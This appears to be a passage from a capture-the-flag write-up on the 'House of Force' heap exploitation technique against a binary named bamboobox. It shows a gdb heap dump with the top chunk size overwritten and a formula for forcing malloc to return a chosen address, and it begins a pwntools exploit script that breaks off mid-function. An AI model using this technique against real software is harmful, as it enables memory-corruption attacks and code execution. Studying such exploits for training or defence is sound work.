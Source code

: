 ```nasm
0x555556269270: 0x0000000000000000      0x0000000000000041
0x555556269280: 0x4141414141414141      0x4141414141414141
0x555556269290: 0x4141414141414141      0x4141414141414141
0x5555562692a0: 0x4141414141414141      0x4141414141414141
0x5555562692b0: 0x4141414141414141      0xffffffffffffffff
0x5555562692c0: 0x0000000000000000      0x0000000000000000
0x5555562692d0: 0x0000000000000000      0x0000000000000000
0x5555562692e0: 0x0000000000000000      0x0000000000000000
0x5555562692f0: 0x0000000000000000      0x0000000000000000
0x555556269300: 0x0000000000000000      0x0000000000000000
0x555556269310: 0x0000000000000000      0x0000000000000000
0x555556269320: 0x0000000000000000      0x0000000000000000
gef➤  
```

We can overwrite the wilderness value with 0xffffffffffffffff, which is 8 bytes of 0xff, which
will represent our -1 value. If you are viewing the chunk within gdb-gef, you may notice some
strange things with top chunk size. For example, it may say 0xffffffffffffffff8, instead of
0xffffffffffffffff. This is due to the bit flags that have been set, if you were to manually
check the value of the wilderness, you would find that it was still 0xffffffffffffffff.

Okay, now lets get onto the real overwriting part. How can we overwrite the wilderness?

we can either guess and check repeatedly through gdb, or we can just calculate it by using
offsets within the addresses. The formula goes like this:

address_of_wilderness - address_of_chunk0_start

its pretty simple, but this is how you would go about calculating the offset to the wilderness.

once we have overwritten the wilderness, what can we do next?

it seems like we have free reign to allocation chunks outside of the heap correct??
well, we dont exactly want to, lets view the heap and see what we can work with.

```text
requestSize = (size_t)victim            // The target address/chunk that malloc should return
                - (size_t)top_chunk     // The present address of the top chunk/addr of wilderness
                - 2*sizeof(long long)   // Size of 'size' and 'prev_size' / sizeof(long long)*2 = 16;
                - sizeof(long long);    // Additional buffer / sizeof(long long) = 8;
```

as we can see, the general formula to follow is this. The addresses you provide dont need to be
specifically accurate for the majority of the time. It will pad out and allocate with 16 bytes.

here is the exploit, tested for ubuntu xenial 16.04

```py
#!/usr/bin/env python3
# glibc 2.23 & 2.27
from pwn import process,ELF,context,remote,pause
from fastpwn import pack,log
from sys import argv
context(arch='amd64',os='linux')
binary=ELF("./bamboobox",checksec=False)
libc=ELF("./libc.so.6",checksec=False)
if len(argv)>1 and argv[1]=="-r":
    p=remote("ubuntu.box",9999) #glibc 2.33 vm
else:
    p=process(["./ld-2.27.so","./bamboobox"],env={'LD_PRELOAD':'./libc.so.6'})
## helper func, only for sending ascii, no raw bytes
s=lambda x,r=":":p.sendlineafter(str(r),str(x)) if r else p.sendline(str(x))
def show_item():
    s(1,"choice:")
def add_item(sz,n):
    s(2,"choice:")
    s(sz)
```